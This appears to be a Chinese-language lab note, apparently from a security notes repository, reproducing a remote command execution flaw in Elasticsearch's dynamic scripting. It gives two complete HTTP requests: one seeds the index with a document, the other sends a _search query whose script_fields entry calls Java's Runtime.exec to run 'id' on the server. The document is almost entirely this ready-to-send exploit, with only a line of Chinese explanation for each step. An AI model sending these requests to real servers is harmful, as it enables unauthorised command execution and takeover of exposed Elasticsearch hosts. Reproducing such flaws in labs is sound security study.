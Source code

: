 1、漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "xiaodi"
}
```

<img src="图片\Snipaste_2023-02-09_10-58-03.png" alt="Snipaste_2023-02-09_10-58-03" style="zoom:80%;" />

2、直接发包触发执行命令

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
